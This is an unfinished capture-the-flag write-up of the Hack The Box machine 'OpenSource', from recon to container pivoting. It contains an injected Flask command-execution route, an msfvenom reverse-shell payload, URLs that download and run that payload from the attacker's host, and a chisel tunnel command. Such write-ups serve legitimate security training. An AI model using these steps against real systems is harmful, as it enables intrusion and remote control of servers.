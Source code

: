 # Hackthebox - OpenSource

![OpenSource](.res/../../.res/HTB-OpenSource.png)

- [Opensource on Hackthebox](https://app.hackthebox.com/machines/471)

## Nmap

```bash
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e59057ca958c923900f7523823d055f (RSA)
|   256 48a853e7e008aa1d968652bb8856a0b7 (ECDSA)
|_  256 021f979e3c8e7a1c7caf9d5a254bb8c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
|_http-title: upcloud - Upload files for Free!
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sun, 23 Jul 2023 00:03:02 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Sun, 23 Jul 2023 00:03:03 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=7/22%Time=64BC6E36%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,1573,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.1\.2\x20P
SF:ython/3\.10\.3\r\nDate:\x20Sun,\x2023\x20Jul\x202023\x2000:03:02\x20GMT
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:5316\r\nConnection:\x20close\r\n\r\n<html\x20lang=\"en\">\n<head>\n\x20
SF:\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20\x20\x20<meta\x20name=
SF:\"viewport\"\x20content=\"width=device-width,\x20initial-scale=1\.0\">\
SF:n\x20\x20\x20\x20<title>upcloud\x20-\x20Upload\x20files\x20for\x20Free!
SF:</title>\n\n\x20\x20\x20\x20<script\x20src=\"/static/vendor/jquery/jque
SF:ry-3\.4\.1\.min\.js\"></script>\n\x20\x20\x20\x20<script\x20src=\"/stat
SF:ic/vendor/popper/popper\.min\.js\"></script>\n\n\x20\x20\x20\x20<script
SF:\x20src=\"/static/vendor/bootstrap/js/bootstrap\.min\.js\"></script>\n\
SF:x20\x20\x20\x20<script\x20src=\"/static/js/ie10-viewport-bug-workaround
SF:\.js\"></script>\n\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href
SF:=\"/static/vendor/bootstrap/css/bootstrap\.css\"/>\n\x20\x20\x20\x20<li
SF:nk\x20rel=\"stylesheet\"\x20href=\"\x20/static/vendor/bootstrap/css/boo
SF:tstrap-grid\.css\"/>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20hr
SF:ef=\"\x20/static/vendor/bootstrap/css/bootstrap-reboot\.css\"/>\n\n\x20
SF:\x20\x20\x20<link\x20rel=")%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\
SF:nServer:\x20Werkzeug/2\.1\.2\x20Python/3\.10\.3\r\nDate:\x20Sun,\x2023\
SF:x20Jul\x202023\x2000:03:03\x20GMT\r\nContent-Type:\x20text/html;\x20cha
SF:rset=utf-8\r\nAllow:\x20OPTIONS,\x20GET,\x20HEAD\r\nContent-Length:\x20
SF:0\r\nConnection:\x20close\r\n\r\n")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTM
SF:L\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x
SF:20\x20\x20\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equ
SF:iv=\"Content-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x
SF:20\x20\x20\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x2
SF:0</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>E
SF:rror\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code
SF::\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20req
SF:uest\x20version\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20<p>Error\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20
SF:Bad\x20request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20
SF:\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.67 seconds
```

## Port 80

We land here  

![Landing](../.res/2023-07-22-20-13-56.png)  

When we click on "Take me there!" we get to a file upload functionality  

And when clicking on download we get a zip file named `source.zip`  
We get a git folder  

![git folder](../.res/2023-07-22-20-20-09.png)  

We can explore a little.  

![Git explorations](../.res/2023-07-22-20-22-01.png)  

We can try to use gitTools Extractor and look in the folders of previous version we got.  
Doing this method we find a json file in .vscode with credentials  

![Json with creds](../.res/2023-07-22-21-56-11.png)  

Also, we have the code for the file upload functionality in `app/app/views.py`:  

```py
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

It seems like it does not check the type of the file and we also might be able to abuse path traversal vulnerability.  

We can append the views.py code with this line  

```python
@app.route('/cmd')
def execute():
	return subprocess.check_output(request.args.get('cmd').split(" "))
```

We also need to import 

Upload it and lively modify the request with burp as follow  

![Upload](../.res/2023-07-29-20-49-49.png)

So now we should have remote code execution  

![RCE](../.res/2023-07-29-20-52-31.png)  

Let's try to get a reverse shell with msfvenom `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=4444 -f elf -o shell`

Now we can serve it with `sudo python3 -m http.server 8000`

We can set up a listener with msfconsole  

![listerner](../.res/2023-07-29-20-58-01.png)  

- `http://10.10.11.164/cmd?cmd=wget http://10.10.14.19:8000/shell`
- `http://10.10.11.164/cmd?cmd=chmod 777 shell`
- `http://10.10.11.164/cmd?cmd=./shell`

And we get a shell  

![shell](../.res/2023-07-29-21-15-16.png)  

As expected we are in a docker container.  
So we need to escape it somehow.  

Let's check the internal network by setting up proxychains  

![proxychains](../.res/2023-07-29-21-20-12.png)  

We add this to our /etc/proxychains.conf  

![proxychains](../.res/2023-07-29-21-22-11.png)  

Now we need to change our routes through metasploit  

![autoroutes](../.res/2023-07-29-21-26-28.png)  

Now we should be able to scan the internal network  

In our proxychains conf file we first need to enable quiet_mode, otherwise it is going to blur the results.  

`proxychains nmap -A -v 172.17.0.1`

![Nmap](../.res/2023-07-29-21-31-59.png)  

Let's upload chisel in our target `upload chisel`  
From our machine we run it as well  

![chisel](../.res/2023-07-29-22-04-17.png)  

- From meterpreter `execute -f /tmp/chisel -i -a "client 10.10.14.19:9999 R:3000:172.17.0.1:3000"`

## coming soon

![Coming soon](../.res/coming-soon.png)  